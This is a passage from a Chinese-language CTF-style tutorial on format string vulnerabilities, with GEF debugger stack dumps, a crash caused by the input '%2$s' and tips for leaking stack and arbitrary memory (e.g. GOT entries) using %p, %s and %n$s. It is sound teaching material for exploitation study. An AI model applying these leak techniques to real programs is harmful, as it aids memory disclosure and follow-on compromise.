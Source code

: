 ```shell
0xffffcd10│+0x14: 0xff007325 ("%s"?)	 ← $eax
0xffffcd14│+0x18: 0xffffce3c  →  0xffffd074  →  "XDG_SEAT_PATH=/org/freedesktop/DisplayManager/Seat[...]"
0xffffcd18│+0x1c: 0x000000e0
gef➤  c
Continuing.
%s[Inferior 1 (process 57488) exited normally]
```

可以看出，在第二次执行printf函数的时候，确实是将0xffffcd04处的变量视为字符串变量，输出了其数值所对应的地址处的字符串。

**当然，并不是所有这样的都会正常运行，如果对应的变量不能够被解析为字符串地址，那么，程序就会直接崩溃。**

此外，我们也可以指定获取栈上第几个参数作为格式化字符串输出，比如我们指定第printf的第3个参数，如下，此时程序就不能够解析，就崩溃了。

```shell
➜  leakmemory git:(master) ✗ ./leakmemory
%2$s
00000001.22222222.ffffffff.%2$s
[1]    57534 segmentation fault (core dumped)  ./leakmemory
```

**小技巧总结**

> 1. 利用%x来获取对应栈的内存，但建议使用%p，可以不用考虑位数的区别。
> 2. 利用%s来获取变量所对应地址的内容，只不过有零截断。
> 3. 利用%order\$x来获取指定参数的值，利用%order\$s来获取指定参数对应地址的内容。

### 泄露任意地址内存

可以看出，在上面无论是泄露栈上连续的变量，还是说泄露指定的变量值，我们都没能完全控制我们所要泄露的变量的地址。这样的泄露固然有用，可是却不够强力有效。有时候，我们可能会想要泄露某一个libc函数的got表内容，从而得到其地址，进而获取libc版本以及其他函数的地址，这时候，能够完全控制泄露某个指定地址的内存就显得很重要了。那么我们究竟能不能这样做呢？自然也是可以的啦。

我们再仔细回想一下，一般来说，在格式化字符串漏洞中，我们所读取的格式化字符串都是在栈上的（因为是某个函数的局部变量，本例中s是main函数的局部变量）。那么也就是说，在调用输出函数的时候，其实，第一个参数的值其实就是该格式化字符串的地址。我们选择上面的某个函数调用为例

```shell
Breakpoint 1, __printf (format=0xffffcd10 "%s") at printf.c:28
28	in printf.c
──────────────────────────────────────────────────────────[ code:i386 ]────
   0xf7e44667 <fprintf+23>     inc    DWORD PTR [ebx+0x66c31cc4]
   0xf7e4466d                  nop
   0xf7e4466e                  xchg   ax, ax
 → 0xf7e44670 <printf+0>       call   0xf7f1ab09 <__x86.get_pc_thunk.ax>
   ↳  0xf7f1ab09 <__x86.get_pc_thunk.ax+0> mov    eax, DWORD PTR [esp]
      0xf7f1ab0c <__x86.get_pc_thunk.ax+3> ret
      0xf7f1ab0d <__x86.get_pc_thunk.dx+0> mov    edx, DWORD PTR [esp]
      0xf7f1ab10 <__x86.get_pc_thunk.dx+3> ret
──────────────────────────────────────────────────────────────[ stack ]────
['0xffffccfc', 'l8']
8
0xffffccfc│+0x00: 0x080484ce  →  <main+99> add esp, 0x10	 ← $esp
0xffffcd00│+0x04: 0xffffcd10  →  0xff007325 ("%s"?)
0xffffcd04│+0x08: 0xffffcd10  →  0xff007325 ("%s"?)
0xffffcd08│+0x0c: 0x000000c2
0xffffcd0c│+0x10: 0xf7e8b6bb  →  <handle_intel+107> add esp, 0x10
0xffffcd10│+0x14: 0xff007325 ("%s"?)	 ← $eax
0xffffcd14│+0x18: 0xffffce3c  →  0xffffd074  →  "XDG_SEAT_PATH=/org/freedesktop/DisplayManager/Seat[...]"
0xffffcd18│+0x1c: 0x000000e0
```
